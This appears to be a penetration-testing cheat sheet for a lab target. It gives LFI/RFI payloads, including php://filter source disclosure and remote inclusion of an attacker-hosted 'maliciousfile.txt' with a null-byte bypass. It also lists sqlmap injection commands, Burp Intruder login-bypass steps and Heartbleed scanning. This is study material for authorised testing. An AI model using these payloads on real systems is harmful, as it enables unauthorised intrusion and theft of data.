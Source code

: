 #### LFI/RFI

```
# Kadimus
/root/Tools/Kadimus/kadimus -u http://10.10.10.87/example.php?page=


# Bypass execution
http://10.10.10.87/index.php?page=php://filter/convert.base64-encode/resource=index
base64 -d savefile.php

# Bypass extension
http://10.10.10.87/page=http://192.168.1.101/maliciousfile.txt%00
http://10.10.10.87/page=http://192.168.1.101/maliciousfile.txt?
```


#### SQL-Injection

```
# Post
./sqlmap.py -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://10.10.10.87/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://10.10.10.87 --dbms=mysql --crawl=3
```

#### Sql-login-bypass


- Open Burp-suite
- Make and intercept request
- Send to intruder
- Cluster attack
- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
- Attack
- Check for response length variation

### Password brute force - last resort

```
cewl
```

### Port 443 - HTTPS

Heartbleed:

```
sslscan 10.10.10.87:443
```

## Vulnerability analysis
